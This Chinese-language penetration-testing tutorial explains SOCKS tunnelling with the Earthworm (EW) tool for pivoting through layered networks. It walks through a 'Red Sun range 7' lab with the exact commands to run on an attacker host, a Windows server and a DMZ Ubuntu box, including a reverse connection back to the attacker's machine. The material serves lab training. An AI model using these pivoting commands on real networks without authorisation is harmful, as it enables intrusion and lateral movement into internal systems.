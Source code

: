 # 通过Earthworm(EW)进行隧道穿透

  在进行多层网段渗透时，我们经常会遇到各种代理隧道问题，仅靠使用端口转发无法完成，可以利用Socks协议建立隧道进行连接，Socks是代理服务可以说是lcx端口转发工具的升级版，有两种协议，分别是Socks 4和Socks 5。Socks 4只支持TCP，Socks 5支持TCP/UDP，核心功能是帮助他人通过socks访问网络。在主机上配置Socks协议代理服务，访问网站时Socks充当了中间人的角色，分别与双方（B/S）进行通信，然后将获得的结果通知对方，攻击者可以通过Socks客户端连接Socks服务，进而实现跳板攻击，EW工具使用具体参数如表所示。

|参数|作用|
|--|--|
|Ssocksd|正向代理                  (Simple Socks Daemon)|
|Rcsock|反向代理客户端         (Reverse Client Socks)|
|Rssocks|反向代理服务端             (Reverse Server Socks)|
|Lcx_slave|一侧通过反弹方式连接代理请求方，另一侧连接代理提供主机   (Link Connect Slave)|
|Lcx_tran|通过监听本地端口接收代理请求，并转发给代理提供主机          (Link Connect Transfer)|
|Lcx_listen|通过监听本地端口接收数据，并将其转交给目标网络会连的代理提供主机        (Link Connect Listen)|

## 案例 - 红日靶场7

### 网络环境

![截图](3963e21116f53d7ad09edaffe6b95d01.png)

|机器|ip|
|--|--|
|攻击机(lcx_listen)|192.168.111.128|
|Windows 服务器 (ssocksd)|192.168.52.30 / 192.168.93.20|
|DMZ区域的Ubuntu 18(Lcx_slave)|192.168.111.133 / 192.168.52.10|

### 隧道穿透流程

#### 1.攻击机 (192.168.111.128)

```
./ew_for_linux64 -s lcx_listen -l 1090 -e 1235
```

- 作用：在攻击机上启动一个**监听端口(1090)的服务**，等待来自其他主机的代理请求。接收到的请求将会转发到指定的目标地址（192.168.111.128:1235）。
- 后果：攻击机将成为一个入口点，任何通过1090端口发送的请求都将被转发到192.168.111.128的1235端口，建立代理通道。

#### 2.Windows 服务器 (192.168.52.30, 192.168.93.20)

```
ew_for_Win.exe -s ssocksd -l 999
```

- 作用：在Windows服务器上启动一个**SOCKS代理服务**，监听999端口。
- 后果：任何连接到该Windows服务器的999端口的请求将通过此SOCKS代理进行处理。这使得其他主机可以通过该代理访问网络。

#### 3.DMZ区域的Ubuntu 18 (192.168.111.133, 192.168.52.10)

```
./ew_for_linux64 -s lcx_slave -d 192.168.111.128 -e 1235 -f 192.168.52.30 -g 999
```

- 作用：在DMZ区域的Ubuntu主机上启动一个**代理连接**，将来自192.168.52.30的999端口的请求转发到攻击机的1235端口。
- 后果：该Ubuntu主机会将连接到其999端口的请求转发至攻击机的1235端口，完成代理链的搭建，使得攻击机可以通过Ubuntu主机与Windows服务器的SOCKS代理进行通信。

#### 4.然后攻击机上配置proxychains

![截图](ce3df02c63f2b44a8e2c0ca4f715b7bd.png)

此时，就可以设置proxychains等代理工具，通过访问攻击机的1090端口来使用架设在第二层网络Windows主机上的socks代理服务，来进入第三层网络了。